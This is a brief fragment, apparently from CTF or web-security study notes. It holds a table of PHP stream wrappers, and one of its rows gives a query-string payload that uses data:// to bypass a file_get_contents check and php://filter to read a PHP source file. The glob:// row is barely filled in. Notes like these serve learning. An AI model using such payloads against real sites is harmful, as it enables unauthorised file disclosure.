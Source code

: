 | Protocol | desc                               | payload                                                                |
| -------- | ---------------------------------- | ---------------------------------------------------------------------- |
| data://  | bypass file_get_contents($text...) | ?text=data://test/plain,welcome&file=php://filter/resource=useless.php |
| glob://  | 搜索目录                           |                                                                        |
|          |                                    |                                                                        |
